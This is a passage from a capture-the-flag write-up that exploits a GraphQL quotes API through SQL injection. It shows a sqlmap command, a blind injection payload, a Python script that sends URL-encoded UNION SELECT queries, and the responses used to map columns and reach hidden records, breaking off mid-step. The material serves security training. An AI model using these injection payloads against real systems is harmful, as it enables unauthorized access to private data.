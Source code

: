 So, let's now use `sqlmap`:

```
python sqlmap.py -r sqlmap_request.txt --level=5 --risk=3
```

Output:

```
sqlmap identified the following injection point(s) with a total of 258 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challenges.ringzer0ctf.com:10303/api/quotes/2) { id } search (query: "') AND 2571=2571-- FlEs") { id,value } test : quote(id:1
---
```

As we can use `SQL Injection` here, we can find the number of columns in `Quotes` table:

```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

string = """2) { id } search (query: "a') union SELECT 1,2,3,4,5,6 from Quotes --") { id, value, public, author { id, name} } test : quote(id:1"""
encoded_string = quote(string)  # URL encode the character
url = f"{base_url}{encoded_string}"
response = requests.get(url, headers=headers)
print(f"Response: {response.text}")
```

We didn't get an error, when we `SELECT` 6 columns. So we remember, that we had some quote with ID `10`, that wasn't visible and also we have `public` field, that has value `1` for each of quotes from `1` to `9`. Probably the `public` field is set to `0` on the `10th` quote, and because of that we can't query it. Let's find the position of the `public` column. We can make it by setting each of the columns to `1`. We found it by setting `4th` column to `1`:

```
2) { id } search (query: "a') union SELECT 0,2,3,1,5,6 from Quotes--") { id, value, public, author { id, name} } test : quote(id:1
```

Result: 

```
Response: {"data":{"quote":{"id":2},"search":[{"id":0,"value":"3","public":1,"author":{"id":2,"name":"Frances C. Adams"}}],"test":{"value":"Memories are art","author":{"name":"Audrey T. Lee"}}}}
```

So the first column is `id`, second is `author_id`, third is `value` and the fourth, as we already found out is `public`. The `5th` and `6th` we can't find out, but we don't need it, so let's query all the quotes by explicitly setting `public` field to `1`:
